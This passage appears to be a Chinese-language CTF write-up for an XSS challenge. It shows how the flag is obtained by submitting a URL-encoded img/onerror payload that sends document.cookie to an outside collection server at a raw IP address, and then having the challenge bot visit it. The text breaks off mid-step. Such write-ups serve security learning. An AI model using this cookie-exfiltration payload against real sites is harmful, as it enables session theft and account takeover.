 #### 获取 flag

1. 首先，尝试将自己的 cookie 打到 xss 平台上。
   直接填入 payload:`?greet=%3Cimg/src=x%20onerror=%22a=%27http://120.78.185.175/xss/myxss?s=%27%2Bdocument.cookie;new%20Image().src=a%22%3E`，访问：
   ![](img/xss03.png)
   看到成功打出 cookie：
   ![弹窗](img/xss04.png)
2. 将 payload 输入提交页面获取 flag：
   ![](img/xss05.png)
   注意要弹出以下窗口才说明 bot 成功访问了 url：